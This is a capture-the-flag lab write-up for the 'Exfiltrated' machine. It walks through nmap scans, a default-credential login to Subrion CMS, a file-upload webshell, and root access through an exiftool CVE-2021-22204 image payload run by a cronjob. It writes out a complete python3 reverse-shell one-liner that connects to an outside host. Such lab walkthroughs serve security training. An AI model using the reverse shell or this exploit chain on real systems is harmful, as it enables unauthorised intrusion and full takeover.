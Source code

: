 # Exfiltrated

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.175.163
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 18:24 +08
Nmap scan report for 192.168.175.163
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Did a detailed `nmap` scan to enumerate for me as well:

```
$ sudo nmap -p 22,80 -sC -sV -O -T4 192.168.175.163                         
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 18:27 +08
Nmap scan report for 192.168.175.163
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1994b952225ed0f8520d363b448bbcf (RSA)
|   256 0f448badad95b8226af036ac19d00ef3 (ECDSA)
|_  256 32e12a6ccc7ce63e23f4808d33ce9b3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
```

So there's a `/panel` directory present, and we can enumerate that first:

### Default Creds --> Subrion RCE

The `/panel` directory shows us a basic login page:

<figure><img src="../../../.gitbook/assets/image (3074).png" alt=""><figcaption></figcaption></figure>

We can login with `admin:admin`. This software was Subrion CMS v4.2.1, which had a few public exploits:

```
$ searchsploit subrion 4.2.1
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Subrion 4.2.1 - 'Email' Persistant Cross-Site Scripting    | php/webapps/47469.txt
Subrion CMS 4.2.1 - 'avatar[path]' XSS                     | php/webapps/49346.txt
Subrion CMS 4.2.1 - Arbitrary File Upload                  | php/webapps/49876.py
Subrion CMS 4.2.1 - Cross Site Request Forgery (CSRF) (Add | php/webapps/50737.txt
Subrion CMS 4.2.1 - Cross-Site Scripting                   | php/webapps/45150.txt
----------------------------------------------------------- ---------------------------------
```

We can use the Arbitrary File Upload to get a webshell on the machine:

<figure><img src="../../../.gitbook/assets/image (434).png" alt=""><figcaption></figcaption></figure>

From here, we can easily convert this to a reverse shell on our machine using a `python3` reverse shell.&#x20;

{% code overflow="wrap" %}
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.164",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2566).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Cronjob --> Exiftool RCE

I ran `linpeas.sh` on the machine to enumerate for me, and it picked up on cronjobs running as the `root` user:

<figure><img src="../../../.gitbook/assets/image (1506).png" alt=""><figcaption></figcaption></figure>

Here's the content of the file:

```bash
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata 

echo -ne "\\n metadata directory cleaned! \\n\\n"


IMAGES='/var/www/html/subrion/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename; 
do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
```

This program uses `exiftool` to get the metadata of the image and redirects it to a file. We can find the version of `exiftool` being used here by using it on any file:

```
www-data@exfiltrated:/opt$ exiftool image-exif.sh 
ExifTool Version Number         : 11.88
File Name                       : image-exif.sh
Directory                       : .
File Size                       : 437 bytes
File Modification Date/Time     : 2021:06:10 12:06:15+00:00
File Access Date/Time           : 2023:07:01 10:24:06+00:00
File Inode Change Date/Time     : 2021:08:27 12:33:35+00:00
File Permissions                : rwxr-xr-x
File Type                       : bash script
File Type Extension             : sh
MIME Type                       : text/x-bash
```

This version is vulnerable to an RCE exploit by injecting code within the image. When `exiftool` is run on the malicious image, code would be executed as well. Since we can write to the `/var/www/html/subrion/uploads` directory, this means that we just need to create and put a malicious `.jpg` file there.

Here's a repository that can be used:

{% embed url="https://github.com/convisolabs/CVE-2021-22204-exiftool" %}

We just need to edit `exploit.py` to have the relevant IP address and port. Afterwards, we can grab any sample image and run the exploit to update it with the payload:

```
$ python3 exploit.py
    1 image files updated
```

Afterwards, transfer it to the `/var/www/html/subrion/uploads` directory and wait for a bit. Once the cronjob runs, we will get a reverse shell as `root`:

<figure><img src="../../../.gitbook/assets/image (2676).png" alt=""><figcaption></figcaption></figure>

Rooted!
